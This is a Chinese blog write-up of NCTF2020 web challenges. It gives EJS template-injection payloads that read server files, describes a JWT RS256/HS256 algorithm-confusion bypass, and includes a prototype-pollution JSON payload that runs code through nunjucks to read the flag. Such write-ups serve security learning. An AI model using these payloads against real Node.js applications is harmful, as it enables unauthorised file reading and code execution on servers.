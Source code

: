 ```yaml
---
title: NCTF2020复盘
date: 2020-11-23 18:36:19
tags: ["随笔", "安全"]
index_img: ../assets/nctf2020/profile.png
---
```


## 前言

从大一开始我每年都打 NCTF，~~除了恰烂钱，~~感觉每次都可以学到点不一样的东西。今年的 web 题有点不一样，感觉挺有意思的，加深了我对 JavaScript 相关的一些安全问题的理解。

![profile](../assets/nctf2020/profile.png)

### JS-world

![problem1-1.png](../assets/nctf2020/problem1-1.png)

这道题涉及到的是 ejs 模板的注入问题，同时传入的后端的信息会先经过前端过滤一次。可以通过 DevTool 的断点调试功能，找到相关的过滤关键字的代码如下，删除后即可绕过。

```javascript
_0x23132f = _0x23132f[_0x1bef85("0x5")](
  /[\/\*\'\"\`\<\\\>\-\(\)\[\]\=\%\.]/g,
  ""
);
```

这里的输入存在模板注入问题，通过 payload `> <%= global.process.mainModule.constructor._load("fs"). readdirSync("/") %> <` 和`> <%= global.process.mainModule.constructor._load("fs"). readFileSync("/flag.txt") %> <` 即可读取目录并获得 flag

![problem1-1.png](../assets/nctf2020/problem1-2.png)

### PackageManager_v1.0

这道题可以获取到源码，通过审计代码发现了一个问题，这里的鉴权使用的是 JWT token，签名时使用的是 RS256，但是验证时使用的是 RS256 和 HS256，同时将公钥加到了 payload 中。RS256 是非对称加密算法，HS256 是对称加密算法。因此我们可以解析 token 后获取到公钥，并使用公钥和 HS256 生成自己的 token，绕过鉴权。

![problem2-1](../assets/nctf2020/problem2-1.png)

代码中存在着对象 clone 的代码，有原型链污染的漏洞

![problem2-2](../assets/nctf2020/problem2-2.png)

![problem2-3](../assets/nctf2020/problem2-3.png)

这里当第 9 行的 key 为`__proto__`时就会造成原型链污染，修改变量`a`的原型(即 Object.prototype)上的属性。

![problem2-7](../assets/nctf2020/problem2-7.png)

同时，这里使用的模板引擎是 nunjucks，其源代码中存在着一些`new Function`和字符串拼接，有被注入的可能性。

构造 payload 如下，即可成功获取 flag

```json
{
  "author": "111",
  "__proto__": {
    "description": "global.process.mainModule.require('fs').readFileSync('/w0w_Congrats_Th1s_1s_y0ur_flaaag')"
  }
}
```

![problem2-5](../assets/nctf2020/problem2-5.png)
